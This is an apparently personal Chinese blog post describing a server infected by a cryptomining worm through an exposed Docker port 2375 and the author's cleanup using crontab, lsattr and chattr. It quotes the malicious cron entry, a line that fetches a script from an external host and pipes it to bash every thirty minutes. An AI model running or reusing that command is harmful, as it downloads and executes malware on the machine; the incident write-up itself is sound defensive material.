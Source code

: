 ```yaml
---
title: 记一次服务器遭到挖矿病毒感染的经历
date: 2022-05-17
author: 寒雨
hide: false
summary: 2375端口真不能开，开了就中招
categories: 杂谈
tags:
  - 运维
---
```


# 记一次服务器遭到挖矿病毒感染的经历

## 起因

在鼓捣docker，看了一些教程，为了方便一些操作打开了2375端口，导致被人docker注入了。

## 应对过程

其实我之前完全没有面对过服务器遭到病毒攻击的问题...最开始是腾讯云给我发短信，说我的服务器存在危险行为，并且封禁了这台服务器一天。

当时一上去我就感觉到不对了，服务器上经常莫名奇妙多一个docker镜像，删了也没用。

后面我使用`crontab -l`排查了一下定时任务，发现里面有一个奇怪的任务。

~~~sh
*/30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
~~~

看样子这就是问题所在了，它会定时下载一个脚本文件并且执行。那么只要把它删掉不就完事大吉了？

于是我试图用`crontab -e`删掉它，最后却发现无法编辑这个配置。

> "/tmp/crontab.Awo30z" 1L, 1C written
> crontab: installing new crontab
> /var/spool/cron/#tmp.VM-16-8-centos.XXXX6iXbXz: Operation not permitted
> crontab: edits left in /tmp/crontab.Awo30z

病毒怎么可能会让你轻松的删掉这个定时任务？它修改了文件的属性，让它无法被修改——即便你拥有root的最高权限。

百度后找到了解决方案

>  查看是否有特殊的属性 lsattr /var/spool/cron/ 
>
>  去掉特殊的属性 chattr -ai /var/spool/cron/root  && lsattr /var/spool/cron/root

但是有一点很奇怪，我的腾讯云机器上无法使用chattr指令。他会询问我是否安装一个包，但真安装时却说这个包已经安装过了，不知道这是不是病毒搞得鬼。

> [root@VM-16-8-centos lighthouse]# chattr -i /var/spool/cron
> bash: chattr: command not found...
> Install package 'e2fsprogs' to provide command 'chattr'? [N/y] y  
>
>
>  * Waiting in queue... Failed to install packages: e2fsprogs-1.45.6-2.tl3.x86_64 is already installed

于是我把包给卸载重装了一次，就可以了

> yum remove e2fsprogs-1.45.6-2.tl3.x86_64

去除特殊权限后就可以编辑定时任务了。
